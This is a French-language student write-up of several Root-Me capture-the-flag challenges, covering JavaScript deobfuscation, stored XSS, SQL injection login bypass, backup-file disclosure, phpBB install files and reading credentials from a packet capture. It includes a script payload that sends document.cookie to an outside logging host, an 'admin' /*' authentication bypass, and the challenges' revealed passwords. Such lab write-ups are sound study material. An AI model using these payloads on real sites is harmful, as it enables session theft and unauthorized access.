 # RootMe
RootMe du groupe Gabriel C, Benjamin D et Romain M


Challenge client web

Javascript - Obfuscation 3

Première tentative :

Essayer différents password de base :
-admin -0000 -1234 -motdepasse -code
Idée non concluante  

Deuxième tentative :

Regarder dans le code et je me rend compte que dans tout les cas il indique que le mdp est faux dans il faut rentrer le mdp directement sur la page daceuil .
Lecture de la ligne : « var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65"; »
Essaie des différents chiffres en tant que mot de passe.
Idée non concluante  

Troisième tentative :

Lecture de la ligne : » p += String.fromCharCode((o = tab2[i])); »
Le « fromCharCode » prouve qu’il y a une conversion d’un type de caractère dans un tableau
Le seul tableau qui me vient a l’esprit c’est la table d’ascii
Je passe cette ligne de nombre dans le tableau et le rentre dans le mot de passe.
« "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65" »
Idée non concluante  

Quatrième tentative :

Je prends cette ligne et fait pareil.
\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30
Idée non concluante  

Cinquième tentative :

Puis je sélectionne cette ligne et je commence à le convertir en décimal car généralement le code son en décimal.
 « \x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30 »
On obtient 55,56,54,79,115,69,114,116,107,49,5 ce n’est pas le mdp.
Idée non concluante  

Sixième tentative :


Je décide donc d’analyser et d’effectuer un 
console.log(String.fromCharCode(55,56,54,79,115,69,114,116,107,49,50)); » et cela nous donne donc le mdp.
Ce qui donne : 786OsErtk12. 
Chalenge réussi 


XSS - Stockée 1

Première tentative : 

Je regarde dans le code au cas où mais il y a aucun indice contenant le mdp mais je remarque que le champ texte est vulnérable à des injections de balise HTML et permet ainsi l'injection de code. Alors je fais un test en mettant <script>Alert.alert(« yo »)<script> et je suis sur la bonne piste car il affiche un pop-up donc le champ de texte est bien vulnérable à l’ingestion de code.

Bonne piste alors je continue 

Grâce au site : Inspecter les | de requête HTTP Inspecteur de demande (requestinspector.com)
Je peux inspecter les requêtes et obtenir les cookies
  
J’écris cette commande dans le contenue du message est envoie le message :

« <script>window.location="http://sandbox-209707.appspot.com/" + document.cookie;</script> »
Puis inspecter les logs du site et je tombe sur ça :
![image](https://user-images.githubusercontent.com/91453648/168331861-df322ad8-bc99-4691-a964-0e6e18097df6.png)
 

Chalenge réussi 

SQL injection - Authentification
Première tentative :

Essayer différents password de base :
-admin -0000 -1234 -motdepasse -code
On obtient alors une erreur avec le mot clés "near".
Idée non concluante  

Deuxième tentative :

Comme la base de données est une base sql on peux essayer de mettre une balise de commentaire « */ » pour que ca ne prenne pas en compte le contenue de ce commentaire.
Login :  « admin ‘/**/ » 
« ‘ » est ici car c’est username`='XXXX’
Idée non concluante

Troisième tentative :  

Essayer de laisser ouvert la ligne de commentaire pour « supprimer » le mdp ?
Ce qui donnerai « admin' /* » et en mdp n’importe quoi car c’est en commentaire.
Il suffit d’utiliser le même mdp pour valider le défis.

Chalenge réussi 



Web serveur: 

Fichier de sauvegardes :

Le challenge nous mène sur une page dont l’url est la suivante : 
« http://challenge01.root-me.org/web-serveur/ch11/ »

On ajoute à la fin de cet URL “index.php~” qui va donc nous permettre de visualiser le contenu du fichier. 
![image](https://user-images.githubusercontent.com/91453648/168332121-e5dc629e-727d-4434-ad91-3ae41202d57a.png)


Le mot de passe est donc apparent dans le fichier. 
La solution est   “OCCY9AcNm1tj”.



Install Files:

En observant le code source de la page, on trouve ceci : 

 ![image](https://user-images.githubusercontent.com/91453648/168332158-95e5a11e-aa34-4db1-8a54-6eb50c7fd33a.png)


Après quelque recherche sur google sur phpbb, je suis tombé sur ca: 

 ![image](https://user-images.githubusercontent.com/91453648/168332174-110e093d-9d93-4117-80ee-356c806e774c.png)


J’ai donc ajouté à l’url phpbb/install/ puis suis arrivé sur la page ci-dessous. 

 ![image](https://user-images.githubusercontent.com/91453648/168332190-a04e8a58-788c-4098-8c00-1945b7e8ae60.png)


Après avoir installé le fichier “install.php”, on obtient le message suivant : 


![image](https://user-images.githubusercontent.com/91453648/168332199-883d6367-11d1-4d8b-832c-fccb3eabf516.png)








Réseaux: 

Authentification twitter :

On récupère le document “ch3.pcap” et on l’ouvre avec wireshark. 

On va dans Hypertext Transfer Protocol, puis dans Autorization, ou il y a les lignes Credentials : usertest:password 

Le mot de passe est donc “password”.


